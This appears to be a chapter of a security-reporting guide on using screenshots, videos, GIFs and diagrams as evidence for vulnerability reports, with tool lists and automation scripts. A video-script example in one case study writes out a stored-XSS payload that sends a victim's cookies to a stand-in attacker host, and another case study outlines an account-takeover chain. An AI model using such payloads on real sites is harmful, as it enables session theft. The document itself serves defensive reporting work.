







# 33 - Multimedia Integration: Screenshots, Videos, and Diagrams in Reports

## Expert Role

You are a multimedia specialist in security reporting, combining technical expertise with visual communication skills. You understand that a well-placed screenshot can communicate more than paragraphs of text, and a well-recorded video can demonstrate a complex attack chain more effectively than step-by-step instructions. You have mastered screenshot capture and annotation, video recording and editing, GIF creation, diagram generation, and image optimization. You know that multimedia is not decoration—it is evidence. Every image, video, and diagram in your reports serves a specific purpose: to prove the vulnerability exists, to demonstrate the impact, or to explain the attack path. Your multimedia skills make your reports more convincing, more professional, and more effective.

## Core Concepts

### Multimedia as Evidence

In security reports, multimedia serves as primary evidence. Screenshots prove that a vulnerability exists at a specific point in time. Videos demonstrate the complete attack chain from start to finish. Diagrams visualize complex relationships and attack paths. Unlike text descriptions, which can be disputed, multimedia provides undeniable proof of the vulnerability. This evidence is critical for triage, bounty awards, and client confidence.

### Screenshot Fundamentals

Effective screenshots capture the relevant information clearly. This means: proper framing (showing the relevant interface elements), proper annotation (highlighting the vulnerable parameter or result), proper resolution (readable text and UI elements), and proper timing (capturing the exact moment of vulnerability execution). A poorly framed, blurry screenshot is worse than no screenshot.

### Video Documentation

Video captures dynamic evidence that screenshots cannot: the complete attack chain, timing-dependent vulnerabilities, race conditions, and multi-step exploitation. A well-recorded video shows the attacker's perspective, including all steps taken, all intermediate results, and the final impact. Video is particularly valuable for complex vulnerabilities that require multiple steps to demonstrate.

### GIF Creation

GIFs provide short, focused demonstrations of specific vulnerability behaviors. They are ideal for showing: input validation bypass, UI redress attacks, and simple exploitation steps. GIFs are lighter than videos and can be embedded directly in markdown reports. They provide dynamic evidence without the overhead of video hosting and playback.

### Diagram Types

Different vulnerabilities benefit from different diagram types:
- **Attack Chain Diagrams**: Show the step-by-step exploitation path
- **Architecture Diagrams**: Show the system components and their relationships
- **Data Flow Diagrams**: Show how data moves through the application
- **Sequence Diagrams**: Show the interaction between components over time
- **Network Diagrams**: Show the network topology and attack paths

### Image Optimization

Report images must be optimized for: file size (fast loading), resolution (clear readability), format (appropriate for content), and compression (minimal quality loss). Overly large images slow report loading, while overly compressed images lose critical detail. Finding the right balance requires understanding image formats, compression algorithms, and viewer expectations.

### Annotation Principles

Effective annotation highlights the relevant information without obscuring other details. This means: using consistent colors for different types of highlights, using arrows or callouts to direct attention, using borders to frame relevant areas, and using text labels to explain what is being shown. Annotation should clarify, not confuse.

### Hosting and Distribution

Multimedia files must be hosted appropriately for the target platform. Some platforms allow direct image embedding, while others require external hosting. Video hosting requires consideration of: file size limits, playback compatibility, privacy settings, and retention policies. Understanding platform capabilities ensures your multimedia is accessible.

### Accessibility in Multimedia

Multimedia must be accessible to all users, including those using assistive technologies. This means: providing alt text for images, providing captions for videos, providing transcripts for audio, and ensuring sufficient color contrast. Accessible multimedia ensures your evidence is available to everyone.

### Privacy and Redaction

Multimedia often contains sensitive information: PII, session tokens, API keys, and internal system details. Proper redaction is essential: blurring or blacking out sensitive data, masking cookies and tokens, removing internal URLs and IP addresses, and ensuring no secrets are exposed. Privacy compliance is not optional.

### Quality Control

Multimedia quality directly impacts report credibility. Poor quality screenshots suggest careless testing. Blurry videos suggest inadequate evidence. Misleading diagrams suggest misunderstanding. Quality control includes: reviewing all multimedia before inclusion, verifying accuracy, checking readability, and ensuring proper annotation.

### Tool Selection

Different tools serve different multimedia needs: built-in OS screenshot tools for quick captures, professional annotation tools for detailed markup, video recording tools for complete demonstrations, GIF creation tools for focused animations, and diagram tools for visual explanations. Selecting the right tool for each task ensures quality and efficiency.

### Integration with Reports

Multimedia must be integrated seamlessly with report text. This means: placing images near relevant text, providing descriptive captions, referencing multimedia in the text, and organizing multimedia logically. Multimedia should enhance the narrative, not interrupt it.

## Prerequisites

1. Proficiency in screenshot capture and annotation tools
2. Familiarity with video recording and editing software
3. Understanding of GIF creation tools and techniques
4. Knowledge of diagram creation tools (Mermaid, PlantUML, Draw.io)
5. Understanding of image formats (PNG, JPG, GIF, SVG) and their use cases
6. Knowledge of image optimization techniques
7. Familiarity with video hosting platforms and embedding
8. Understanding of privacy and redaction requirements
9. Knowledge of accessibility standards for multimedia
10. Familiarity with platform-specific multimedia requirements
11. Understanding of file size limits and optimization strategies
12. Knowledge of annotation design principles
13. Familiarity with color theory and contrast requirements
14. Understanding of multimedia integration in markdown and HTML
15. Knowledge of automated multimedia processing tools
16. Familiarity with screen recording workflows
17. Understanding of diagram rendering and export options
18. Knowledge of image compression algorithms
19. Familiarity with video codecs and formats
20. Understanding of multimedia version control

## Methodology

### Step 1: Plan Multimedia Strategy

Before capturing any multimedia, plan what is needed:

**Identify Key Evidence**:
- What vulnerabilities need visual proof?
- What attack chains need video demonstration?
- What relationships need diagram explanation?
- What UI elements need screenshot documentation?

**Select Multimedia Types**:
- Screenshots for static evidence
- Videos for dynamic demonstrations
- GIFs for focused animations
- Diagrams for visual explanations

**Plan Capture Sequence**:
- What order should evidence be captured?
- What environments are needed?
- What tools are required?
- What privacy considerations apply?

### Step 2: Capture High-Quality Screenshots

**Setup**:
- Use a clean browser profile (no extensions, bookmarks, or history)
- Set appropriate browser window size (1280x720 or 1920x1080)
- Clear any unnecessary UI elements
- Ensure sufficient screen resolution

**Capture Techniques**:
- Use full-page screenshots when showing context
- Use element-specific screenshots when showing details
- Use sequential screenshots to show before/after states
- Use multiple angles to show different perspectives

**Annotation Guidelines**:
- Use consistent colors: red for vulnerabilities, green for fixes, yellow for warnings
- Use arrows to direct attention to specific elements
- Use borders to frame relevant areas
- Use text labels to explain what is being shown
- Use blur or black bars to redact sensitive information

### Step 3: Record Effective Videos

**Recording Setup**:
- Use a clean browser profile
- Set appropriate resolution (1920x1080 or 1280x720)
- Set appropriate frame rate (30fps for most cases)
- Disable notifications and system sounds
- Close unnecessary applications

**Recording Best Practices**:
- Start with a title slide explaining the vulnerability
- Show the URL and browser address bar
- Narrate each step as you perform it
- Pause briefly after important actions
- Show the final impact clearly
- End with a summary slide

**Post-Production**:
- Trim unnecessary footage
- Add annotations and callouts
- Add narration or captions
- Export in appropriate format (MP4, WebM)
- Optimize file size

### Step 4: Create Effective GIFs

**When to Use GIFs**:
- Simple input validation bypasses
- UI redress demonstrations
- Quick exploitation steps
- Before/after comparisons

**GIF Creation Process**:
1. Record the relevant screen activity
2. Trim to the essential moments
3. Optimize file size (aim for <5MB)
4. Add annotations if needed
5. Test playback quality

**GIF Optimization**:
- Reduce color palette if possible
- Remove unnecessary frames
- Use appropriate frame delay
- Optimize compression settings

### Step 5: Create Informative Diagrams

**Diagram Selection**:
- Attack chains: Use flowchart or sequence diagrams
- Architecture: Use component or deployment diagrams
- Data flow: Use data flow diagrams
- Relationships: Use class or entity-relationship diagrams

**Diagram Creation Process**:
1. Identify the key relationships to show
2. Select the appropriate diagram type
3. Create the diagram using appropriate tools
4. Add labels and annotations
5. Export in appropriate format (PNG, SVG)

**Diagram Best Practices**:
- Keep diagrams simple and focused
- Use consistent shapes and colors
- Add clear labels and legends
- Show the attack path clearly
- Include relevant system components

### Step 6: Optimize All Multimedia

**Image Optimization**:
- Resize to appropriate dimensions
- Compress without significant quality loss
- Use appropriate format (PNG for screenshots, JPG for photos, SVG for diagrams)
- Optimize for web delivery

**Video Optimization**:
- Use appropriate codec (H.264, VP9)
- Set appropriate bitrate
- Optimize for target platform
- Consider adaptive streaming for large videos

**GIF Optimization**:
- Reduce frame count if possible
- Optimize color palette
- Use appropriate compression
- Test on target platform

### Step 7: Annotate Effectively

**Annotation Principles**:
- Be consistent with colors and styles
- Highlight the most important information
- Use arrows to direct attention
- Add text labels for context
- Don't over-annotate

**Annotation Tools**:
- Use professional annotation tools (Snagit, Greenshot)
- Create custom annotation templates
- Develop consistent annotation style
- Train team members on annotation standards

### Step 8: Integrate with Report

**Placement**:
- Place images near relevant text
- Use figures and captions
- Reference multimedia in the text
- Organize logically

**Captioning**:
- Provide descriptive captions
- Include figure numbers
- Explain what is being shown
- Reference relevant findings

**Accessibility**:
- Add alt text to all images
- Provide captions for videos
- Ensure sufficient contrast
- Use semantic markup

### Step 9: Host and Distribute

**Image Hosting**:
- Use platform-native image hosting when possible
- Use reliable external hosting (Imgur, ImgBB)
- Set appropriate privacy settings
- Ensure long-term availability

**Video Hosting**:
- Use platform-native video hosting when possible
- Use reliable external hosting (YouTube, Vimeo)
- Set appropriate privacy settings
- Provide download options if needed

**Backup**:
- Maintain local copies of all multimedia
- Document hosting locations
- Ensure backup availability
- Plan for hosting changes

### Step 10: Quality Control

**Review Process**:
- Verify all multimedia is accurate
- Check all multimedia is readable
- Ensure all multimedia is properly annotated
- Validate all multimedia is accessible
- Confirm all multimedia is properly hosted

**Quality Metrics**:
- Screenshot clarity and relevance
- Video completeness and quality
- GIF effectiveness and size
- Diagram accuracy and clarity
- Overall multimedia quality score

## Tool Arsenal

### Screenshot Capture Tools

- **Snagit**: Professional screenshot capture with annotation
- **Greenshot**: Open source screenshot capture
- **ShareX**: Screen capture with advanced features
- **LightShot**: Quick screenshot capture
- **Skitch**: Simple annotation tool
- **PicPick**: Screen capture with design tools
- **Windows Snipping Tool**: Built-in screenshot tool
- **macOS Screenshot**: Built-in screenshot tool
- **Chrome DevTools**: Browser screenshot capabilities
- **Firefox Screenshot**: Browser screenshot tool

### Screenshot Annotation Tools

- **Snagit**: Professional annotation with templates
- **Greenshot**: Open source annotation tools
- **ShareX**: Annotation with custom tools
- **PicPick**: Design-oriented annotation
- **GIMP**: Advanced image editing
- **Photoshop**: Professional image editing
- **Paint.NET**: Free image editor
- **Pixlr**: Online image editor

### Video Recording Tools

- **OBS Studio**: Open source video recording
- **Camtasia**: Professional screen recording
- **Screencastify**: Chrome extension for recording
- **Loom**: Quick video recording and sharing
- **QuickTime**: macOS built-in recording
- **Xbox Game Bar**: Windows built-in recording
- **Bandicam**: Lightweight screen recording
- **Action!**: Game and screen recording

### Video Editing Tools

- **Adobe Premiere Pro**: Professional video editing
- **Final Cut Pro**: macOS professional editing
- **DaVinci Resolve**: Free professional editing
- **Camtasia**: Screen recording with editing
- **iMovie**: macOS free video editing
- **Windows Video Editor**: Windows built-in editing
- **Shotcut**: Open source video editing
- **Kdenlive**: Open source video editing

### GIF Creation Tools

- **ScreenToGif**: Windows GIF recorder
- **GIPHY Capture**: macOS GIF recorder
- **LiceCap**: Cross-platform GIF recorder
- **Peek**: Linux GIF recorder
- **gifski**: High-quality GIF converter
- **ezgif.com**: Online GIF editor
- **GIF Brewery**: macOS GIF creator
- **GifCam**: Windows GIF recorder

### Diagram Creation Tools

- **Mermaid**: JavaScript-based diagramming
- **PlantUML**: UML diagram generation
- **Draw.io**: Online diagramming tool
- **Lucidchart**: Professional diagramming
- **Visio**: Microsoft diagramming
- **Graphviz**: Graph visualization
- **yUML**: Simple UML generation
- **D3.js**: Data-driven visualization
- **Cytoscape.js**: Graph theory library
- **js-sequence-diagrams**: Sequence diagram library

### Image Optimization Tools

- **ImageOptim**: macOS image optimization
- **TinyPNG**: Online PNG optimization
- **OptiPNG**: PNG optimization
- **JPEGoptim**: JPEG optimization
- **GIFsicle**: GIF optimization
- **Squoosh**: Online image optimization
- **Compressor.io**: Online compression
- **SVGOMG**: SVG optimization

### Video Optimization Tools

- **HandBrake**: Video transcoding
- **FFmpeg**: Video processing
- **VLC**: Video conversion
- **Adobe Media Encoder**: Professional encoding
- **CloudConvert**: Online video conversion
- **Zamzar**: Online file conversion
- **Any Video Format Converter**: Format conversion
- **Format Factory**: Multi-format converter

### Hosting Platforms

- **Imgur**: Image hosting
- **ImgBB**: Image hosting
- **Cloudinary**: Image and video hosting
- **YouTube**: Video hosting
- **Vimeo**: Video hosting
- **Streamable**: Video hosting
- **Gfycat**: GIF hosting
- **Giphy**: GIF hosting

### Automated Processing Scripts

```bash
# Screenshot optimization
convert screenshot.png -resize 1280x720 -quality 85 optimized.png

# Video optimization
ffmpeg -i input.mp4 -vcodec libx264 -crf 23 output.mp4

# GIF optimization
gifsicle --optimize=3 --colors=128 input.gif -o optimized.gif

# Image batch processing
for img in *.png; do convert "$img" -resize 800x600 "optimized_$img"; done

# Video to GIF conversion
ffmpeg -i input.mp4 -vf "fps=10,scale=480:-1" output.gif

# Screenshot sequence
ffmpeg -i video.mp4 -vf "fps=1" frame_%04d.png

# Image compression
jpegoptim --max=85 --strip-all *.jpg
pngquant --quality=65-80 *.png

# Video metadata extraction
ffprobe -v quiet -print_format json -show_format -show_streams input.mp4
```

## Case Studies

### Case Study 1: SQL Injection Screenshot Evidence

**Vulnerability**: Blind SQL injection in user search

**Screenshot Strategy**:
1. Capture Burp Suite showing the injection payload
2. Capture the response showing extracted data
3. Annotate the vulnerable parameter
4. Highlight the extracted information

**Implementation**:


*Figure 1: Burp Repeater showing SQL injection payload. The vulnerable parameter `name` is highlighted in red.*


*Figure 2: Server response showing extracted user data. The extracted email addresses are highlighted in yellow.*

**Annotation Guidelines**:
- Red highlight: Vulnerable parameter
- Yellow highlight: Extracted sensitive data
- Green border: Successful extraction
- Arrow pointing to key evidence

**Quality Checklist**:
- [ ] Screenshot is clear and readable
- [ ] URL is visible in address bar
- [ ] Vulnerable parameter is highlighted
- [ ] Response data is visible
- [ ] Annotation is clear and not obscuring
- [ ] Image is properly sized

### Case Study 2: XSS Video Demonstration

**Vulnerability**: Stored XSS in comment section

**Video Strategy**:
1. Show the vulnerable endpoint
2. Demonstrate payload injection
3. Show the script execution
4. Demonstrate impact (cookie theft)

**Video Script**:

```
[0:00-0:05] Title slide: "Stored XSS in Comment Section"

[0:05-0:10] Show the application URL: https://example.com/articles/1/comments

[0:10-0:15] Log in as test user

[0:15-0:25] Navigate to comment section

[0:25-0:35] Enter XSS payload:
<script>
document.location='https://attacker.com/steal?c='+document.cookie
</script>

[0:35-0:40] Submit comment

[0:40-0:45] Log out

[0:45-0:50] Log in as different user

[0:50-0:55] View the article with the malicious comment

[0:55-1:00] Show script execution in console

[1:00-1:05] Show cookie sent to attacker server

[1:05-1:10] End slide: "Impact: Session hijacking possible"
```

**Post-Production**:
- Add annotations highlighting key moments
- Add callouts explaining each step
- Add captions for accessibility
- Trim unnecessary footage
- Optimize for web delivery

### Case Study 3: IDOR Diagram

**Vulnerability**: Insecure Direct Object Reference in document access

**Diagram Strategy**:
1. Create attack chain diagram
2. Create architecture diagram
3. Create data flow diagram

**Attack Chain Diagram**:



**Architecture Diagram**:



**Data Flow Diagram**:



### Case Study 4: Authentication Bypass GIF

**Vulnerability**: Password reset token reuse

**GIF Strategy**:
1. Show token generation
2. Show first password reset
3. Show second password reset (reuse)

**GIF Creation Process**:

1. **Record** the following sequence:
   - Request password reset
   - Use token to reset password (first time)
   - Use same token to reset password (second time)

2. **Trim** to essential moments:
   - Token generation response
   - First reset success
   - Second reset success

3. **Optimize** for size:
   - Reduce to 480px width
   - Limit to 10fps
   - Optimize colors

4. **Add annotations**:
   - Highlight token in first request
   - Show "Token used" after first reset
   - Show "Token reused" after second reset

**GIF Content**:


*Figure 1: GIF demonstrating password reset token reuse. The same token successfully resets the password twice.*

### Case Study 5: Architecture Diagram for CSRF

**Vulnerability**: CSRF on fund transfer endpoint

**Diagram Strategy**:
1. Create attack scenario diagram
2. Create mitigation diagram

**Attack Scenario**:



**Mitigation Diagram**:



### Case Study 6: Multi-Step Attack Video

**Vulnerability**: Authentication chain (CSRF + XSS + Account Takeover)

**Video Strategy**:
1. Show CSRF vulnerability
2. Show XSS injection
3. Show cookie theft
4. Show account takeover

**Video Script**:

```
[0:00-0:10] Title: "Authentication Chain: CSRF → XSS → Account Takeover"

[0:10-0:30] Part 1: CSRF Demonstration
- Show vulnerable password change endpoint
- Demonstrate CSRF attack
- Show password changed without user consent

[0:30-1:00] Part 2: XSS Injection
- Inject XSS payload in comment
- Show script execution
- Demonstrate cookie theft

[1:00-1:30] Part 3: Account Takeover
- Combine CSRF and XSS
- Steal session token
- Access victim's account

[1:30-1:45] Impact Summary
- Show full attack chain
- Explain business impact
- Provide remediation guidance
```

### Case Study 7: Configuration Comparison Screenshots

**Vulnerability**: Missing security headers

**Screenshot Strategy**:
1. Capture headers before fix
2. Capture headers after fix
3. Create comparison image

**Before Screenshot**:


*Figure 1: HTTP response headers before fix. Missing security headers are highlighted in red.*

**After Screenshot**:


*Figure 2: HTTP response headers after fix. Added security headers are highlighted in green.*

### Case Study 8: Network Diagram for SSRF

**Vulnerability**: Server-Side Request Forgery

**Diagram Strategy**:
1. Create network topology diagram
2. Create attack path diagram

**Network Topology**:



**Attack Path**:



## Advanced Techniques

### Automated Screenshot Capture

Automate screenshot capture for consistent evidence:

```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

def capture_vulnerability_screenshot(url, payload, output_file):
    driver = webdriver.Chrome()
    driver.get(url)
    
    # Find vulnerable parameter
    element = driver.find_element(By.NAME, "search")
    element.send_keys(payload)
    element.submit()
    
    time.sleep(2)
    
    # Capture screenshot
    driver.save_screenshot(output_file)
    driver.quit()
```

### Automated Video Recording

Automate video recording for consistent demonstrations:

```python
import cv2
import numpy as np
from mss import mss

def record_screen(duration, output_file, fps=30):
    sct = mss()
    screen_size = sct.monitors[1]
    
    fourcc = cv2.VideoWriter_fourcc(*'mp4v')
    out = cv2.VideoWriter(output_file, fourcc, fps, 
                          (screen_size['width'], screen_size['height']))
    
    start_time = time.time()
    while time.time() - start_time < duration:
        img = np.array(sct.grab(screen_size))
        out.write(img[:,:,:3])
    
    out.release()
```

### Automated GIF Creation

Automate GIF creation for focused demonstrations:

```python
from PIL import Image
import imageio

def create_gif(image_files, output_file, duration=0.5):
    images = []
    for file in image_files:
        images.append(imageio.imread(file))
    
    imageio.mimsave(output_file, images, duration=duration)
```

### Automated Diagram Generation

Generate diagrams programmatically:

```python
from graphviz import Digraph

def create_attack_diagram():
    dot = Digraph(comment='SSRF Attack')
    dot.node('A', 'Attacker')
    dot.node('B', 'Web App')
    dot.node('C', 'Internal Service')
    dot.node('D', 'Cloud Metadata')
    
    dot.edge('A', 'B', label='1. Craft payload')
    dot.edge('B', 'C', label='2. Internal request')
    dot.edge('C', 'B', label='3. Internal data')
    dot.edge('B', 'A', label='4. Return data')
    dot.edge('A', 'D', label='5. Access metadata')
    dot.edge('D', 'A', label='6. Return credentials')
    
    dot.render('attack_diagram', format='png')
```

### Batch Processing

Process multiple multimedia files:

```bash
# Batch image optimization
for img in *.png; do
    convert "$img" -resize 1280x720 -quality 85 "optimized_$img"
done

# Batch video optimization
for video in *.mp4; do
    ffmpeg -i "$video" -vcodec libx264 -crf 23 "optimized_$video"
done

# Batch GIF optimization
for gif in *.gif; do
    gifsicle --optimize=3 --colors=128 "$gif" -o "optimized_$gif"
done
```

### Quality Metrics

Track multimedia quality:

```python
def assess_image_quality(image_path):
    img = Image.open(image_path)
    
    metrics = {
        'resolution': img.size,
        'file_size': os.path.getsize(image_path),
        'format': img.format,
        'mode': img.mode
    }
    
    return metrics
```

## Detection Patterns

### Identifying Quality Issues

Common multimedia quality issues:
1. Blurry or low-resolution screenshots
2. Poorly cropped or framed images
3. Inconsistent annotation style
4. Misleading or inaccurate diagrams
5. Overly large file sizes
6. Poor video quality
7. Ineffective GIF animations
8. Missing accessibility features

